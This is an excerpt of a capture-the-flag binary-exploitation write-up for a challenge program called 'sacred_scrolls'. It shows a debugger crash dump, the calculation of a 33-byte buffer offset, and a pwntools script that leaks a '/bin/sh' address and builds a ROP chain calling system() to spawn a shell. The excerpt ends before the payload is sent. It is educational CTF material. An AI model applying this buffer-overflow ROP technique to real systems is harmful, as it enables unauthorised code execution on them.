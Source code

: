 ```c
Program received signal SIGSEGV, Segmentation fault.
0x0000000000400ee1 in spell_save ()
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]────────────────────
 RAX  0x4a
 RBX  0
 RCX  0x7ffff7d14a37 (write+23) ◂— cmp rax, -0x1000 /* 'H=' */
 RDX  0
 RDI  0x7fffffffb2e0 —▸ 0x7ffff7c620d0 (funlockfile) ◂— endbr64 
 RSI  0x7fffffffb400 ◂— 0xa6d31333b315b1b
 R8   0x4a
 R9   0x7fffffff
 R10  0
 R11  0x246
 R12  0x600
 R13  0
 R14  0x600
 R15  0
 RBP  0x6961616168616161 ('aaahaaai')
 RSP  0x7fffffffd558 ◂— 0x6b6161616a616161 ('aaajaaak')
 RIP  0x400ee1 (spell_save+62) ◂— ret 
```

Here is our offset: 

```c
└──╼ $pwn cyclic -l aaajaaak
33
```

## Exploit Script 🧨

```python
#!/usr/bin/env python3
from pwn import *
import os, sys, argparse

context.binary = './sacred_scrolls'
elf = context.binary

def get_process(args):
    if args.host and args.port:
        return remote(args.host, int(args.port))
    return process(elf.path)

def leak_bin_sh(p):
    p.sendafter(b'Enter your wizard tag: ', b'A' * 16)
    p.recvuntil(b'A' * 16)
    bin_sh = u64(p.recvline().strip().ljust(8, b'\0'))
    log.success(f'Leaked "/bin/sh" address: {hex(bin_sh)}')
    return bin_sh

def build_rop_payload(bin_sh_addr):
    rop = ROP(elf)
    pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
    system = elf.plt['system']

    payload  = b'\xf0\x9f\x91\x93\xe2\x9a\xa1'  # Decorative emoji bytes
    payload += b'A' * 33
    payload += p64(pop_rdi)
    payload += p64(bin_sh_addr)
    payload += p64(pop_rdi + 1)  # ret gadget for alignment
    payload += p64(system)
    return payload
```